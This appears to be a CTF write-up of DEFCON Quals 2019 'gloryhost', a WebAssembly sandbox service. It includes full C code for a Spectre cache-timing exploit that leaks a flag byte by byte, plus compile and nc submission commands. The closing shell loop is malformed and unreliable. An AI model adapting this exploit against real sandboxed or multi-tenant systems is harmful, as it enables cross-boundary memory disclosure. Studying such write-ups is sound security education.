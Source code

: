 ```yaml
---
layout: post
title: DEFCON Quals 2019, Gloryhost
date:   2019-05-13 18:43:49 -0400
categories: ctf defcon quals 2019
comments: true
---
```


<img src="/assets/gloryhost.jpg">

Author: mattypiper

Contributors: mattypiper, fringe

## Description

gloryhost is a 64-bit Linux ELF network service written in Rust. It accepts compiled WebAssembly programs on port 9999
and executes the wasm program in a seccomp filtered sandbox. After figuring out how to generate a wasm program written in
C using wasi-sdk, we were able to load our code into the service using base64. The service then responds with an error message expecting
a certain export that was not found:

> your code makes me feel funny: unable to resolve entry point: Export not found: this_is_what_ive_got

Defining this function in C and setting it as the entry point allows the code to execute.

```c
int this_is_what_ive_got()
{
    return 0;
}
```

```bash
/opt/wasi-sdk/bin/clang -o test.wasm -Wl,-e,this_is_what_ive_got test.c
```

Gloryhost appears to print the return value of your function and execute the C code.
Attempting to execute libc functions such as `open()` and `read()`
results in the service dying prematurely with a trap:

> your code makes me feel funny: unable to execute entry point: WebAssembly trap occured during runtime: unknown

The service disables syscalls with seccomp, hence the WebAssembly trap. At this point we discovered a set of functions in the
gloryhost name space that were interesting.

1. `wasi_debug_flush` executes the x86 clflush instruction on the pointer argument
1. `wasi_check_data`, `wasi_get_data_size` and the`wasi_get_data*` functions were recognized as a set of functions that implement
a few of the "primitives" required to execute the [Spectre](https://spectreattack.com/spectre.pdf) attack (speculative execution cache side channel).
1. `wasi_debug_read` performs a C-style read of the pointer argument, required for Spectre.
1. `wasi_debug_ts` executes the x86 `rdtsc` instruction, a timing instrument that can be used to execute the Spectre attack.

At this point, we laid out the plan: use the gloryhost/wasi functions from our C code to implement Spectre.
Inspection with strace and gdb revealed that the flag was being loaded into the .bss entry `_data6` at 0xe86120.
The `wasi_get_data` functions were only provided for data2 thru data5, but the Spectre primitives could be used to read
`_data6`. After some struggling with the wasi toolchain and learning about wasm in general, we were able to call the
`gloryhost::wasi` functions from our C code by defining the functions as `extern` and linking with `-Wl,--allow-undefined`.
Getting the function arguments and return values to line up was aided by the dynamic WebAssembly linker, which would print
messages such as:

> your code makes me feel funny: unable to resolve entry point: Parameters of type [] did not match signature [I32] -> [I32]

For getting the flag itself, the only instrument provided to send data back to the client was via the 32-bit return value
of the `this_is_what_ive_got` function. For example, returning 0xdeadbeef would print:

> YOU'VE GOT deadbeef

We based our Spectre implementation on an
[existing Spectre PoC from ErikAugust](https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6).

As we implemented the Spectre attack, we had to take care to avoid using pointers or array indexing. This was because
the wasi-sdk only supported 32-bit mode. So we defined the functions as follows:

```c
extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();
```

And after some more thought, we realized that direct pointer/array accesses would not even work as expected
when crossing the boundary from WebAssembly to C/amd64.

Anyway, after tuning the cache timing threshold, we were able to read the flag one byte at a time (we kept
the code from the PoC that also generated a score and put that in the return value as well to be able to gauge
the confidence of each flag byte).

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();

#define CACHE_HIT_THRESHOLD (600) /* assume cache hit if time <= threshold */

/* aliases from github poc to gloryhost:
     array2 = get_data5()
     array1_size = get_data_size()
     victim_function = check_data()
     array1 = get_data3()
     flag is in _data6  */

void readMemoryByte(uint32_t malicious_x, uint8_t value[2], int score[2])
{
    int results[256];
    int tries, i, j, k, mix_i;
	unsigned int junk = 0;
    uint64_t time1, time2;
    size_t training_x, x;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;

    for (tries = 999; tries > 0; tries--) {
        // flush data5 from cache
        for (int i = 0; i < 256; i++) {
            uint64_t p = get_data5();
            p += i*512;
            debug_flush(p);
        }

        // 30 loops, 5 training runs per attack
        training_x = tries % 16; // 16 == nelements(array1_size)
        for (j = 29; j >= 0; j--) {
            debug_flush(get_data_size());

            // delay
            for (volatile int z = 0; z < 100; z++);

            // bit twiddling
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            check_data(x);
        }

        // time reads
        for (int i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;

            uint64_t addr  = get_data5();
            addr += mix_i * 512;
            time1 = debug_ts();
            debug_read(addr);
			time2 = debug_ts() - time1;
			if (time2 <= CACHE_HIT_THRESHOLD)
				results[mix_i]++;
        }

		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break;
	}

	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int this_is_what_ive_got()
{
	uint32_t malicious_x = 0x100 + MALOFFSET; // use compiler argument to "step" this index
	int score[2], len = 2;
	uint8_t value[2];
	readMemoryByte(malicious_x, value, score);
	return (value[0] << 24) | (value[1] << 16) | ((score[0] & 0xff)<<8) | (score[1] & 0xff);
}

int main() {}
```

Compile with:

```sh
/opt/wasi-sdk/bin/clang -DMALOFFSET=1 -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c
```

Leak one byte at a time with a script:
```sh
for i in `seq 0 40`; do \
    nc -N gloryhost.quals2019.oooverflow.io 9999; done | \
    /opt/wasi-sdk/bin/clang -DMALOFFSET=$i -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c && \
    cat solve.wasm | base64 -w0 | nc -N localhost 9999 | egrep '^YOU' | cut -d' ' -f3 | cut -c1-2| xxd -r -p; \
    done
```
